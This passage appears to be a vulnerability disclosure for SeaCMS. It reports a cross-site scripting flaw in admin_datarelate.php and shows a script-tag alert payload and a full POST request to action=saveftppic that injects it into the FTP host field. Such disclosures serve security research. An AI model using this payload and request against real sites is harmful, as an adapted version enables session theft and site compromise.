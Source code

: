 12.9 admin_datarelate has a reflected xss vulnerability

Visit our admin_datarelate, get the incoming parameter action=ftppic

![image-20240820210848868](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240820210848868.png)

```
Come to this interface
Enter at any location
```

`"><script>alert('XSS')</script>`

then click Save

```java
POST /p8qca/admin_datarelate.php?action=saveftppic HTTP/1.1
Host: seacms:8181
Content-Length: 283
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://seacms:8181
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://seacms:8181/p8qca/admin_datarelate.php?action=ftppic
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5dl35hp50uj606p52se8kg91a2; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D
Connection: keep-alive

edit__app_ftp=1&edit__app_ftphost=%22%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&edit__app_ftpuser=1&edit__app_ftppass=2&edit__app_ftpport=21&edit__app_ftpdir=%2F&edit__app_ftpurl=http%3A%2F%2Ftest.seacms.net&edit__app_ftpdel=0&edit__app_updatepic=0&Submit=%E6%8F%90+%E4%BA%A4
```

After the jump

![image-20240820211518706](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240820211518706.png)



### 
